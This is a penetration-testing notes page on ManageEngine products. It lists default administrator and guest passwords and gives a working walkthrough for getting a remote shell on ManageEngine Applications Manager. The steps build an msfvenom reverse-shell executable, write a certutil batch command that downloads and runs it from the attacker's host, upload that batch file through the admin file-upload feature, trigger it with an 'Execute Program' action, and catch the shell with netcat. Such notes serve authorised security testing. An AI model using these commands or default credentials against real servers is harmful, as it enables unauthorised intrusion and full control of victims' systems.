 # ManageEngine

Information about ManageEngine can be found in their [website](https://www.manageengine.com/products/service-desk/).

## Default Accounts

The default accounts are:

- administrator / administrator
- guest / guest


### ManageEngine Applications Manager

If the target application has what are called 'Actions' which allows certain scripts and files to be executed when a certain parameter is met. To take advantage of this first we can head to **Admin > Upload Files / Binaries** to upload a `cmd` command or any malicious code.

Before we upload we first need to create a `msfvenom` reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o reverse.exe
```

After this has completed we need to then create a batch file as only batch files and scripts are executed from the _Actions_ on the target web server.

Create a batch command to the following:

```
certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe && cmd.exe /c c:\windows\temp\reverse.exe
```

Ensuring the bottom most options for '**Upload Script to \<Product\_Home>/working/**' is selected.

![Manage Engine Applications Manager -> Admin -> Upload Files / Binaries -> Upload Script to \<Product\_Home>/working/](../../.gitbook/assets/manage-engine-upload-files.png)

After the upload head over to **Actions -> Execute Program** Then create a new Action as per the screenshot below:

![Manage Engine Applications Manager -> Action -> Execute Program](../../.gitbook/assets/manage-engine-upload-execute-program.png)

Now, check if you received a shell:

```
nc -lvp <YOUR_PORT>

# DID YOU RECEIVED A SHELL?
```
